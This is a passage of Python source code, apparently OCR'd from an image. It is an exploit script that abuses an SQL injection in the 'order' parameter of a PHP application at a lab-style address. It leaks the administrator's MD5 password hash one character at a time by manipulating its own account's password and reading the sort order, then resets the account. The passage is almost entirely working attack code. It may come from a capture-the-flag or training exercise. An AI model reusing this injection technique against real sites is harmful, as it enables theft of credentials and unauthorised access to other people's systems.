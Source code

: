 ```python
    'login':'Login'
})

def check():
    for i in range(32):
        r = requests.get('http://33.33.33.10/index.php?action=list&order=mid(pwd,&sort='+str(i+1)+',1),id')

        soup = BeautifulSoup(r.text, 'html.parser')
        table = soup.find('div',attrs={'id':'inhalt'})
        for tr in table.find_all('tr'):
            if tr.find_all('th')[0].text == id:
                t[str(i)+':'+md5[i]] = 0
                break
            if tr.find_all('th')[0].text == '1':
                t[str(i)+':'+md5[i]] = 1
                break

def reset():
    print("[+] Resetting User 'nuit' to password 'test'")
    r = s.post('http://33.33.33.10/index.php?action=edit', data={
        'username': 'nuit',
        'password': 'test',
        'email': 'blubb@blaa.com',
        'hp': 'http://localhost/blog/',
        'edit': 'Update'
    })

def print_not_finished(e):
    tmp = ''
    for i in range(32):
        def inner():
            for c in range(16):
                try:
                    pos = str(i)+':'+hex(c)[2:]
                    if(t[pos] == 1):
                        return hex(c)[2:]
                except:
                    pass
            else:
                return '0'
        tmp += inner()
    print(tmp,end=e)

print("[+] Exploiting....")
while 1:
    check()
    print_not_finished("\r")
    if(len(t) == 512):
        print("[+] MD5 Hash of Admin: ",end="")
        print_not_finished("")
        print("")
        reset()
        sys.exit()

    r = s.post('http://33.33.33.10/index.php?action=edit', data={
        'username': 'nuit',
        'password': md5,
        'email': 'blubb@blaa.com',
        'hp': 'http://localhost/blog/',
        'edit': 'Update'
    })
    md5=hashlib.md5(md5.encode('utf-8')).hexdigest()
```